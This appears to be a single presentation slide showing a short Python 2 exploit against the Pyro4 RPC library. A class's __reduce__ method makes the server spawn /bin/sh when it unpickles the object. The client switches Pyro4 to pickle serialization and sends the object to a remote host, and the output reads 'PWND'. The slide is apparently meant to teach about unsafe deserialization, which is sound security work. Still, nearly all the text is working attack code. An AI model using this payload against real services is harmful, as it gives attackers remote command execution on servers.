

class RunBinSh(object):
    def __reduce__(self):
        return (subprocess.Popen, (('/bin/sh', ),))

def main():
    Pyro4.config.SERIALIZER = "pickle"
    rpc = Pyro4.Proxy("PYRO:status@%s:%d" % (host, port))
    print rpc.test(RunBinSh())
-> PWND